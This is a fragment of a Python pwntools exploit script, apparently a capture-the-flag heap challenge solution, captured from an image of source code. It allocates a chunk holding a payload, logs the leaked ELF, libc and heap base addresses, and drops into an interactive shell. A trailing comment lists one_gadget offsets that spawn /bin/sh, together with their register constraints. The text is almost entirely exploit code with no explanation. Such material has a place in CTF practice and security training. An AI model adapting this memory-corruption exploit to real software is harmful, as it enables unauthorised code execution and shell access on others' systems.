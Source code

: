 ```py
alloc(0xc0,payload) # 0

# gdb.attach(fang,'b *(0x555555400000 + 0xAC9)')
# pause()
alloc2(0x100)

log.info("elf_base : 0x%x" % elf_base)
log.info("libc_base : 0x%x" % libc_base)
log.info("heap_base : 0x%x" % heap_base)
# debug()

fang.interactive()
"""
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

"""
```

